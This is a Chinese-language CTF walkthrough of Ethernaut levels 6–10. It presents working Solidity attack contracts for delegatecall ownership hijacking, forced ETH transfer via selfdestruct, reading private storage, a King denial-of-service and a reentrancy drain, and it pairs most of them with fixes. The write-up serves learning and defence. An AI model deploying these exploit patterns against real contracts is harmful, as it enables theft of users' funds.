



# Ethernaut_WP（6-10）-先知社区

> **来源**: https://xz.aliyun.com/news/17768  
> **文章ID**: 17768

---

# Ethernaut\_WP（6-10）

## 第六关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

该代码定义了两个合约，一个Delegate，一个Delegation

分析代码

```
contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}
```

owner等于合约调用者

```
contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```

这个合约多了一个fallback()函数，constructor函数中多了一句delegate = Delegate(\_delegatAddress)，fallback函数中调用了一个低级函数delegatecall()

fallback()函数我们第一关就了解过了

fallback是一个特殊函数，在以下情况下执行：

* 调用了不存在的函数，或者
* Ether 直接发送到合约但receive()不存在或msg.data不为空

我们这一关的重点也就是delegatecall()这个函数，目标是获得“Delegation”合约的所有权

delegatecall 是 Solidity 提供的一个**低级调用（Low-level Call）**，允许一个合约在**另一个合约的上下文中执行代码**，但使用的是**当前合约的存储**。

delegatecall 的关键点：

1. **目标合约的代码在调用者的上下文中执行**（继承调用合约的存储布局）。
2. **msg.sender** **不变**，仍然是原始调用者。
3. **msg.value** **不变**，仍然是原始交易发送的金额。
4. **如果存储变量的顺序不同，可能导致存储冲突和安全漏洞**。

语法：

(bool success, bytes memory returnData) = targetContract.delegatecall(abi.encodeWithSignature("functionName(uint256)", 123));

* targetContract 是要调用的合约地址。
* abi.encodeWithSignature("functionName(uint256)", 123) 是要调用的函数签名及参数。
* delegatecall 返回两个值：

* success：true 表示调用成功，false 表示失败。
* returnData：被调用函数返回的数据。

攻击代码如下：

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        //delegatecall 执行 Delegate 的代码，但修改 Delegation 的存储。
        //fallback() 代理执行 delegatecall，导致存储被劫持。
        if (result) {
            this;
        }
    }
}

contract Attack {
    address delegationContract;

    constructor(address _delegationContract) {
        delegationContract = _delegationContract;
    }

    function attack() public {
        (bool success, ) = delegationContract.call(abi.encodeWithSignature("pwn()"));
        //delegationContract.call(...) 手动构造交易，调用 Delegation 合约。
        //abi.encodeWithSignature("pwn()") 构造 pwn()函数的调用数据。
        //fallback函数的调用有两种情况，上面已经给出，这里由于Delegation没有pwn函数，fallback（）会触发
        require(success, "Attack failed");
    }
}
```



成功更改owner

### 修复方案

#### 限制 fallback() 只能被 owner 调用

```
fallback() external {
    require(msg.sender == owner, "Not authorized");
    (bool result,) = address(delegate).delegatecall(msg.data);
    require(result, "Delegatecall failed");
}
```

#### 原理

* 只允许 owner 调用 delegatecall，攻击者无法触发 delegatecall 来劫持 owner。

### 使用 onlyOwner 保护 delegatecall

#### **完整修复版** **Delegation** **合约**

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    modifier onlyOwner() {
        require(msg.sender == owner, "Not the owner");
        _;
    }

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external onlyOwner {
        (bool result,) = address(delegate).delegatecall(msg.data);
        require(result, "Delegatecall failed");
    }
}
```

#### 原理

* 只有 owner 可以调用 fallback()，攻击者无法执行 delegatecall。
* 这样即使攻击者调用 pwn()，也不会触发 delegatecall。

### 避免 delegatecall 代理不受信任的合约

**如果不需要** **delegatecall****，可以直接调用** **delegate.pwn()****，而不是** **delegatecall****。**

```
fallback() external {
    revert("Delegatecall disabled");
}
```

**✅ 原理**

* 直接禁用 delegatecall，防止 pwn() 在 Delegation 的存储环境下执行。

### 使用 OpenZeppelin 的 Ownable

```
import "@openzeppelin/contracts/access/Ownable.sol";

contract Delegation is Ownable {
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        _transferOwnership(msg.sender);
    }

    fallback() external onlyOwner {
        (bool result,) = address(delegate).delegatecall(msg.data);
        require(result, "Delegatecall failed");
    }
}
```

#### 原理

* 使用 OpenZeppelin Ownable 合约，提供 onlyOwner 保护。
* transferOwnership(newOwner) 让 owner 可以安全更改，而不会被攻击者劫持。

## 第七关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

呃呃呃，一个空合约。。。提示是 1、Fallback 方法 2、有时候攻击一个合约最好的方法是使用另一个合约

fallback()函数调用情况上面已经说过

emmm，我们得了解一下所有合约可以接受ETH的可能方式

在以太坊（Ethereum）智能合约中，能够接收 ETH 的方式主要有以下几种：

|  |  |  |  |
| --- | --- | --- | --- |
| **方式** | **触发条件** | **需要** **payable** | **说明** |
| receive() | 仅接受 **无数据** 的 ETH 交易 | ✅ | **推荐**，更清晰 |
| fallback() | **带数据** 的 ETH 交易或无 receive() 时 | ✅ | 可用作后备方案 |
| selfdestruct() | 另一个合约 selfdestruct(this) | ❌ | **强制** 发送 ETH，无需 payable |
| delegatecall | 目标合约可接收 ETH | ✅ | 间接接收 ETH |
| block.coinbase | 矿工奖励 | ❌ | 特殊情况 |

其中的selfdestruct()很特殊，它不需要payable、receive、fallback，可以直接强制转账

selfdestruct的EVM操作码是做什么的？从Solidity 文档关于[停用和自毁](https://docs.soliditylang.org/en/v0.8.15/introduction-to-smart-contracts.html?highlight=selfdestruct#deactivate-and-self-destruct)的部分，你将了解到：

1. 这是从区块链上删除合约代码的唯一方法。
2. 储存在合约地址的剩余以太币被发送给指定的目标接收者
3. 存储和代码（在发送以太币后）会从状态中删除

有两个重要的注意事项也要记住：

1. *即使一个合约被*selfdestruct*删除，它仍然是区块链历史的一部分，可能被大多数以太坊节点保留。因此，使用*selfdestruct与从硬盘上删除数据不同。
2. *即使合约的代码不包含对*selfdestruct*的调用，它仍然可以使用*delegatecall*或*callcode执行该操作。

那么我们的目标就很明确了

使用selfdestruct（）函数来强制向合约发送以太币，那么这关也就迎刃而解了

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {}

contract Sender {
    function destroyAndSend(address payable recipient) external payable {
        selfdestruct(recipient);
    }
}
```



成功转账

## 第八关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

描述：打开 vault 来通过这一关!

要是想打开，那就是得知道password这个私密变量，那么我们怎么去知道呢

要解决这个问题，只要知道Solidity的存储区域的结构就很容易了。

Solidity一共有四个存储区域。

* 贮存
* 记忆
* 呼叫数据
* 堆

在Storage中，值和变量存储在一起，因此即使是私有的，也可以被访问。这是因为，虽然变量不能从外部直接访问，但是通过访问存储空间中的值就可以进行访问。

合约的状态变量以紧凑的方式存储在存储中，以至于多个值有时使用相同的存储槽。 除了动态大小的数组和 映射mapping （见下文）外，数据是连续存储的，逐项存储，从第一个状态变量开始，该变量存储在槽 0 中。 对于每个变量，根据其类型确定以字节为单位的大小。 多个连续的项如果少于 32 字节，则尽可能打包到一个存储槽中，遵循以下规则：

* 存储槽中的第一项是低位对齐存储的。
* 值类型仅使用存储它们所需的字节数。
* 如果存储槽中的剩余空间不足以储存一个值类型，那么它会存储在下一个存储槽中。
* 结构体和数组数据总是会开启一个新槽，并且它们的数据根据这些规则紧密打包。
* 紧随结构体或数组数据的数据总是开始一个新的存储槽。

对于使用继承的合约，状态变量的顺序由从最基础合约开始的 C3 线性化顺序决定。 如果上述规则允许，来自不同合约的状态变量可以共享同一个存储槽。

结构体和数组的元素是依次存储的，就像它们单独声明时一样。

在 Solidity 中，状态变量按顺序存储在存储槽（storage slot）中。由于 password 是 private 类型，它仍然存储在链上，并且可以通过区块链工具或 RPC 读取。

```
//SPDX-License-Identifier: MIT

pragma soliduty ^0.8.0;

contract Valut{
    bool public locked;
    bytes32 private password;
    
    constructor(byte32 _password) {
        locked = true;
        password = _password;
    }
    
    function unlock(bytes32 _password) public {
        if (password == _password){
                locked = false;
        }
    }
}
```

确定 password 变量的存储槽：

* 在 Solidity 中，状态变量按声明顺序分配存储槽。
* bool public locked; 是第一个状态变量，占用 **slot 0**。
* bytes32 private password; 是第二个状态变量，占用 **slot 1**。


可以用javascript来进行交互获得password

web3.eth.getStorageAt(contract.address, 1, function(x, y) {alert(web3.toAscii(y))})

```
(async () => {
    const password = await web3.eth.getStorageAt("contract_address", 1);
    console.log(password);
})();
```

### 修复方案

#### 存储哈希值而不是明文

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SecureVault {
    bool public locked;
    bytes32 private passwordHash; // 只存储哈希值

    constructor(bytes32 _passwordHash) {
        locked = true;
        passwordHash = _passwordHash;
    }

    function unlock(string memory _password) public {
        if (keccak256(abi.encodePacked(_password)) == passwordHash) {
            locked = false;
        }
    }
}
```

* passwordHash 在链上可见，但原始 password 不可见，除非暴力破解哈希值（成本极高）。
* 这样即使有人读取 storage slot，他们也得知道密码本身才能调用 unlock()。

#### 用 commit-reveal 方案

让用户自己提交密码的哈希值，然后再提交密码本身进行验证

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CommitRevealVault {
    bool public locked;
    mapping(address => bytes32) public commitments;

    function commitPassword(bytes32 _commitment) public {
        commitments[msg.sender] = _commitment;
    }

    function unlock(string memory _password) public {
        require(commitments[msg.sender] == keccak256(abi.encodePacked(_password)), "Invalid password");
        locked = false;
    }
}
```

* commitments 仅存储哈希，避免密码泄露。
* 用户自己管理密码哈希，不存储任何敏感信息。

#### 存储密码 Off-Chain（链下）

**让服务器或 IPFS 存储密码，而不是链上**

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract SecureVault {
    bool public locked;
    address public owner;

    constructor(address _owner) {
        owner = _owner;
        locked = true;
    }

    function unlock(bytes32 messageHash, bytes memory signature) public {
        require(verifySignature(messageHash, signature) == owner, "Invalid signature");
        locked = false;
    }

    function verifySignature(bytes32 messageHash, bytes memory signature) public pure returns (address) {
        require(signature.length == 65, "Invalid signature length");

        bytes32 r;
        bytes32 s;
        uint8 v;
        
        assembly {
            r := mload(add(signature, 32))
            s := mload(add(signature, 64))
            v := byte(0, mload(add(signature, 96)))
        }

        return ecrecover(messageHash, v, r, s);
    }
}
```

* 任何敏感数据都不会直接存储在区块链上，无法通过 eth\_getStorageAt 读取。

## 第九关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

逻辑很简单，就是我们成为king之后，直接不接受后面人的钱不就行了~~（虽然仍然可以使用~~~~selfdestruct~~~~强制交易，但这不是这一关重点）~~

直接上代码

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Level9 {
    function _king() external view returns (address);
}

contract Attack {
    address public kingContract;

    constructor(address _kingContract) {
        kingContract = _kingContract;
    }

    // 攻击函数：成为 king
    function attack() public payable {
        // 向 King 合约发送 ETH，调用其 receive()，使攻击合约成为 king
        (bool success, ) = kingContract.call{value: msg.value}("");
        require(success, "Attack failed");
    }

    // 拒绝接收 ETH，从而导致主合约中的 transfer 回滚，占有king
    receive() external payable {
        revert("I refuse to accept ETH");
    }
}
```

## 第十关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "@openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

这关就是重头戏——重入漏洞分析一下合约代码

mapping(address => uint256) public balances;

做了一个捐款账单映射

```
function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }
```

记录账单映射

```
function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }
```

查询捐款数值

```
function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }
```

关键代码，取出自己的那份钱，这里的逻辑是先交易后记录，会引发重入漏洞

攻击代码

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
    function balances(address _who) external view returns (uint256);
}

contract Attack {
    IReentrance public target;
    address public owner;

    constructor(address _target) public {
        target = IReentrance(_target); // 设置攻击目标
        owner = msg.sender;
    }

    // 捐款给自己，成为目标合约的受益人
    function donateToSelf() external payable {
        require(msg.value > 0, "Need ETH to donate");
        target.donate{value: msg.value}(address(this));
    }

    // 发起攻击
    function attack() external {
        require(msg.sender == owner, "Only owner can attack");
        target.withdraw(1 ether); // 初始调用，触发重入
    }

    // 递归触发withdraw直到目标合约没钱
    receive() external payable {
        uint256 remaining = address(target).balance;
        if (remaining >= 1 ether) {
            target.withdraw(1 ether);
        } else if (remaining > 0) {
            target.withdraw(remaining); // 提光最后一点
        }
    }

    // 提取获得的资金
    function collect() external {
        require(msg.sender == owner, "Not owner");
        msg.sender.transfer(address(this).balance);
    }
}
```

攻击流程如下



需要注意的是，fallback 函数需要限制重入的次数，否则会因为无限地循环调用，导致 gas 不足。我在攻击的过程中并没有一次就全部拿走，也许是因为这个原因。

#### 修复

为了避免重入，你可以使用检查-生效-交互模式，如下所示：

[open in Remix](https://remix.ethereum.org/?#language=solidity&version=0.8.28&code=Ly8gU1BEWC1MaWNlbnNlLUlkZW50aWZpZXI6IEdQTC0zLjAKcHJhZ21hIHNvbGlkaXR5ID49MC42LjAgPDAuOS4wOwoKY29udHJhY3QgRnVuZCB7CiAgICAvLy8gQGRldiDlkIjnuqbnmoTku6XlpKrku73pop3mmKDlsITjgIIKICAgIG1hcHBpbmcoYWRkcmVzcyA9PiB1aW50KSBzaGFyZXM7CiAgICAvLy8g5o+Q5Y+W5L2g55qE5Lu96aKd44CCCiAgICBmdW5jdGlvbiB3aXRoZHJhdygpIHB1YmxpYyB7CiAgICAgICAgdWludCBzaGFyZSA9IHNoYXJlc1ttc2cuc2VuZGVyXTsKICAgICAgICBzaGFyZXNbbXNnLnNlbmRlcl0gPSAwOwogICAgICAgIHBheWFibGUobXNnLnNlbmRlcikudHJhbnNmZXIoc2hhcmUpOwogICAgfQp9)

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.6.0 <0.9.0;

contract Fund {
    /// @dev 合约的以太份额映射。
    mapping(address => uint) shares;
    /// 提取你的份额。
    function withdraw() public {
        uint share = shares[msg.sender];
        shares[msg.sender] = 0;
        payable(msg.sender).transfer(share);
    }
}
```

检查-生效-交互模式确保合约中的所有代码路径在修改合约状态之前完成对提供参数的所有必要检查（检查）；只有在此之后才对状态进行任何更改（效果）；它可以在所有计划的状态更改已写入存储后（交互）调用其他合约中的函数。这是一种常见的防止*重入攻击*的万无一失的方法，其中外部调用的恶意合约可以重复消费一个配额，重复提取一个余额等，通过使用逻辑在原始合约完成其交易之前回调。

请注意，重入不仅是以太转移的结果，也是对另一个合约的任何函数调用的结果。 此外，你还必须考虑多合约情况。被调用的合约可能会修改你依赖的另一个合约的状态。

说白了就是先记录后交易

shares[msg.sender] = 0;这一步是关键的防重入措施：在发送 ETH 之前，先把余额归零。这叫做 “Checks-Effects-Interactions” 模式，是安全合约的推荐写法。如果你先转账、后归零，那攻击者可以在 transfer() 回调时重入 withdraw() 再提一次钱（重入攻击）。
